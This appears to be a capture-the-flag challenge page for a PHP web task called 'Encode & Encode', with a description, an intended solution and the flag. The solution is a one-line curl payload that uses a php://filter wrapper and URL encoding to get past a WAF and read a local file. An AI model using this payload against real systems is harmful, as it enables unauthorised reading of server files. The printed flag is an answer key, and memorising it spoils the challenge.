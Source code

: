 # [Web 100] Encode & Encode
## Description
つよいWAFを作りました! これならフラグは読めないはず!

---

I made a strong WAF, so you definitely can't read the flag!

---

`http://(redacted)` ([server/Dockerfile](server/Dockerfile))

- [encode-and-encode.tar.xz](attachments/encode-and-encode.tar.xz)

## Intended Solution
- `curl "http://(target)/?page=php%3a//filter/convert.base64-encode/resource=/fl%61g"`

## Flag
```
HarekazeCTF{turutara_tattatta_ritta}
```